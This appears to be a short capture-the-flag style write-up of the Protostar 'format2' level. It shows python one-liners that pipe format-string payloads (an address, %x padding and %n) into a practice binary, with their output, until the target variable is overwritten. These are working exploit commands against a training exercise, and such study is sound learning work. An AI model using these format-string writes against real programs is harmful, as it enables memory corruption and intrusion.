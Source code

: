 # Format2

## First Attempt
Just like format11, we line up our values in our payload by increasing/decreasing values on the stack. The address we need to overwrite is high up on the stack. My payload looks like this:<br>
```bash
python -c "print 'AAAA' + '\xe4\x96\x04\x08' + 'BBBB' + '%x.'*4 + '%n.'" | ./format2
AAABBBB200.f7f305a0.f7f69159.41414141..
target is 43 :(
```
Ok, so from the source code I know that <b>target</b> needs to be equal to 64. How about increasing the number of A's?
```bash
python -c "print 'AAAAAAAAAAAA' + '\xe4\x96\x04\x08' + 'BBBB' + '%x.'*6 + '%n.'" | ./format2
AAAAAAAAAAABBBB200.f7f3e5a0.f7f77159.41414141.41414141.41414141..
target is 69 :(
```
Seems like I went over. But if I decrease the number of characters on the stack, things will not align. So how do I add/subtract characters without placing more things onto the stack?

## Second Attempt: Blank Space
I can actually read/write blank spaces onto the stack which will not move the address I'm trying to write to. After that, it's just a matter of determing the size of the buffer
```bash
python -c "print 'AAAA' + '\xe4\x96\x04\x08' + 'BBBB' + '%x.'*3 + '%29x.' + '%n.'" | ./format2
AAABBBB200.f7f325a0.f7f6b159.                     41414141..
you have modified the target :)
```
